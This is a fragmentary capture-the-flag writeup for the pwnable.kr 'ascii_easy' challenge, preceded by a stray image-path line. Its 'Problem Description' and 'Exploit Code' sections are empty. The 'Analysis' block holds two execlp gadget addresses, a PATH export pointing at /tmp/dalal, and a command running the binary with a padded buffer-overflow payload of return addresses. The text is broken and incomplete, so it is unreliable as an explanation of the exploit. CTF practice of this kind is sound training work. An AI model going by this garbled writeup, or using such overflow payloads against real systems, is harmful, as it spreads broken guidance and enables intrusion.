 # Pwnable.kr ascii_easy CTF Writeup

## Problem Description  
The code provided for the challenge is as follows:

```c
```

## Analysis  

```asm
0x00b8a7f : nop; execlp
0x000973c : 63 00 (c /0)

export PATH="$PATH:/tmp/dalal"
./ascii_easy 'AAAAAAAAAAAAAAAAAAAABBBB\x7fjaU<wVU<wVU'
```
## Exploit Code
